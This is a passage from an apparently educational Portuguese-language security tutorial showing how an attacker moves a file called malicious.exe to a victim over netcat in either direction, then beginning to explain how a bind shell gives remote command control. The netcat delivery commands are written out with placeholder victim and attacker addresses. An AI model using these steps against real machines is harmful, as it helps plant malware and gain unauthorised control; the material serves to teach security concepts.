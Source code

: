 Vítima:
```sh
nc -lvp 1337 > malicious.exe
```

Atacante:
```sh
nc ip_da_vitima 1337 < malicious.exe
```


Note que a vítima está utilizando o netcat como servidor e o atacante como cliente, mas também é possível realizar o processo contrário, como nos comandos a seguir:

Atacante:
```sh
nc -lvp 1337 < malicious.exe
```

Vítima:
```sh
nc ip_do_atacante 1337 > malicious.exe
```

Em ambos os casos, a vítima irá redirecionar a saída padrão (>) para um arquivo chamado malicious.exe. Ou seja, todos os bytes que chegarem pelo netcat irão compor o arquivo final.

Quando o atacante redireciona a sua entrada padrão (<) para o arquivo malicious.exe, o netcat irá enviar todos os bytes desse arquivo para a vítima.

Esse procedimento pode levar um tempo e o netcat não mostra informações da completude do envio, logo devemos esperar um momento até que todos os bytes sejam enviados. Como explicaremos em outras postagens, uma shell reversa e *exploits*, de uma forma geral, são arquivos pequenos, que não vão demorar para serem transferidos.

Nas imagens a seguir, foi realizado o primeiro procedimento descrito nessa seção. Após o envio, podemos confirmar que o arquivo recebido pela vítima realmente é um binário PE (EXE) com o comando `file`:

### Exemplo 6 - Bind shell
Uma *bind shell* é um dos tipos mais básicos de malware para controle de um alvo. O procedimento é o seguinte:

> 1. O atacante envia um arquivo malicioso para que a vítima execute. Esse malware irá habilitar um pequeno servidor ("abrir uma porta") no computador do alvo.
> 2. O atacante irá, então, se conectar a esse pequeno servidor, utilizando o IP do alvo e a porta escolhida previamente.
> 3.  Ao estabelcer a comunicação, o invasor poderá enviar comandos (como comandos do cmd, powershell ou bash) para que o alvo execute e envie a resposta.

![b0460d7f499c3a40d5544795b40c8fa2.png](img/f59ba832934f48c28e5601af6fe05f8d.png)
